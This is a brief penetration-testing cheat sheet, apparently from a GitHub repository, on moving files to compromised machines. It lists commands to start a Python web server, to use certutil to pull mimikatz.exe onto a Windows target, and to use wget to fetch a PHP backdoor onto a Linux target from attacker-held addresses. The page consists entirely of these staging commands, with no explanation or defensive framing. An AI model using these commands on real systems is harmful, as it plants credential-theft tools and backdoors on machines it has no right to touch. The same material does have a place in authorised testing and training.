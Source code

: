 # Transferring Files

Python web server

```bash
python -m SimpleHTTPServer 80
python3 -m http.server 8080
```

#### Transferring Files To Windows Targets

```bash
certutil -urlcache -f http://10.10.5.2/mimikatz.exe mimikatz.exe
```

#### Transferring Files To Linux Targets

```bash
wget http://192.196.45.2/php-backdoor.php
```
